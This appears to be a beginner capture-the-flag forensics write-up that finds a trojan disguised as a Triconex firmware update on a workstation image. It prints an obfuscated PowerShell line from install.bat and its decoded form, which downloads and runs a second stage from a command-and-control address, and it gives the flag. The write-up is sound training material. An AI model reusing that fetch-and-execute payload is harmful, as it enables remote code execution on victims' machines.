

# Infected Package [1.8]

## Challenge

<p align="center">
  
</p>

## Solution

This writeup assumes you are new to CTFs and digital forensics. We will walk through exactly how to extract a massive virtual machine image, bypass heavy installation tools, mount the filesystem, find the malware, and decode the payload.

### 1. Challenge Overview

The challenge description gives us the exact profile of what we are looking for:
> *"The intrusion started with something physical. Somewhere on this workstation, the first link in the chain is still sitting in plain sight - but its true intent isn't obvious at first glance."*

**Breakdown of the clues:**
*   **"Something physical"**: This usually implies a USB drive, external hard drive, or a CD inserted into the machine.
*   **"Sitting in plain sight"**: The malicious file is likely on the Desktop or in the Downloads folder.
*   **"True intent isn't obvious"**: This is a classic "Trojan Horse" scenario. The file looks like a harmless document, PDF, or a legitimate software update, but it's actually malware.

The archive contains **4.2 GB** of data. It is definitely a virtual machine image (OVA/VMDK) of the compromised workstation.

### 2. Step 1 — Extracting the Massive Archive

We are provided with the password in the challenge description: `PCTF@2026!`. 

Because the password contains an exclamation mark (`!`), it can trigger history expansion in Bash. We use **single quotes** to prevent this.

```bash
7z x Kerteh-EWS-07.7z -p'PCTF@2026!'
```
*(This will take a minute or two as it extracts a 4.5 GB `.ova` file).*

### 3. Step 2 — Extracting the Virtual Disk

An `.ova` (Open Virtual Appliance) file is simply a `tar` archive that contains the virtual machine's configuration and hard drive.

First, let's unpack the OVA:
```bash
tar -xvf Kerteh-EWS-07.ova
```
*You will see it extracted a `.vmdk` file (e.g., `Kerteh-EWS-07-disk001.vmdk`). This is the actual virtual hard drive.*

**The Beginner Trap: `guestmount` and `qemu`**
Many forensics tutorials will tell you to install `libguestfs-tools` or `qemu-system` to mount the VMDK. On a Kali VM inside VMware, this will often take 20+ minutes to install and might fail due to nested virtualization settings. 

**The Pro-Tip:** `7-Zip` natively understands VMDK and NTFS filesystems! We can extract the entire Windows filesystem directly using `7z`, no installation required.

```bash
7z x Kerteh-EWS-07-disk001.vmdk -oextracted_vm
```
*(This will extract the Windows drive into a folder named `extracted_vm`. It takes about a minute).*

### 4. Step 3 — Triage of the Windows Filesystem

Now we have a fully readable Windows file system. Let's look at the users:
```bash
cd extracted_vm
ls -la Users/
```
We see two main users: `a.rahman` and `vboxuser`. 

Since the clue says it's "sitting in plain sight," let's check the Desktop of the main user, `a.rahman`:
```bash
ls -la Users/a.rahman/Desktop/
```

**Output:**
```text
-rw-rw-r--  1 kali kali  449 Nov 11 04:56 GPP3_Maintenance_W43.txt
-rw-rw-r--  1 kali kali  555 Nov 11 04:56 OT_Network_QuickRef.txt
drwxrwxr-x  2 kali kali 4096 Nov 11 04:56 SCADA_Configs
drwxrwxr-x  2 kali kali 4096 Nov 11 04:55 Triconex_FW_Update_v4.3
```

The folder **`Triconex_FW_Update_v4.3`** stands out immediately. Triconex is a real industrial control system, and attackers love to disguise malware as "Firmware Updates." 

### 5. Step 4 — Finding the Malware

Let's look inside the suspicious firmware folder:
```bash
ls -la Users/a.rahman/Desktop/Triconex_FW_Update_v4.3/
```

We see:
*   `fw_manifest.xml` (Looks legitimate)
*   `install.bat` (The executable payload)
*   `README_INSTALL.txt`
*   `tsaa_cert.pem`

When an engineer double-clicks `install.bat`, the malware runs. Let's see what the batch file does:
```bash
cat Users/a.rahman/Desktop/Triconex_FW_Update_v4.3/install.bat
```

Near the bottom, we find the payload:
```bat
powershell -WindowStyle Hidden -EncodedCommand JABjADIAPQAiAGgAdAB0AHAAOgAvAC8AMQA4ADUALgAxADQAMQAuADIANwAuADkAMwAiADsAJABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwBJAEUAWAAoACQAcwAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACIAJABjADIALwBzAHQAYQBnAGUAMgAuAHAAcwAxACIAKQApADsAIwAgAFAARQBUAFIATwBOAEEAUwB7AFUAUwBCAF8ARABSADAAUABfADEATgAxAFQAMQA0AEwAXwA0AEMAQwAzAFMAUwB9AA==
```

The attacker is using a classic malware technique: `-EncodedCommand`. This hides the PowerShell script in Base64 to evade detection.

### 6. Step 5 — Decoding the Payload

PowerShell's `-EncodedCommand` specifically uses **Base64 encoded UTF-16LE** text. If you just decode it as standard Base64, it will look like gibberish.

Here is the exact command to decode it perfectly in Kali:

```bash
echo "JABjADIAPQAiAGgAdAB0AHAAOgAvAC8AMQA4ADUALgAxADQAMQAuADIANwAuADkAMwAiADsAJABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwBJAEUAWAAoACQAcwAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACIAJABjADIALwBzAHQAYQBnAGUAMgAuAHAAcwAxACIAKQApADsAIwAgAFAARQBUAFIATwBOAEEAUwB7AFUAUwBCAF8ARABSADAAUABfADEATgAxAFQAMQA0AEwAXwA0AEMAQwAzAFMAUwB9AA==" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

**Decoded Output:**
```powershell
$c2="http://185.141.27.93"; $s=New-Object Net.WebClient; IEX($s.DownloadString("$c2/stage2.ps1")); # PETRONAS{USB_DR0P_1N1T14L_4CC3SS}
```

The malware is designed to connect to a Command & Control (C2) server and download the next stage. However, the challenge author left the flag hidden in a comment at the very end of the script.

### 7. Cheat Sheet — Commands Used

```bash
# 1. Extract the 7z Archive (use single quotes for the !)
7z x Kerteh-EWS-07.7z -p'PCTF@2026!'

# 2. Extract the OVA
tar -xvf Kerteh-EWS-07.ova

# 3. Extract the VMDK using 7z (bypassing QEMU)
7z x Kerteh-EWS-07-disk001.vmdk -oextracted_vm

# 4. Find the malware
cd extracted_vm
ls -la Users/a.rahman/Desktop/
cat Users/a.rahman/Desktop/Triconex_FW_Update_v4.3/install.bat

# 5. Decode the PowerShell Base64 command
echo "BASE64_STRING_HERE" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

## Flag

```text
PETRONAS{USB_DR0P_1N1T14L_4CC3SS}
```
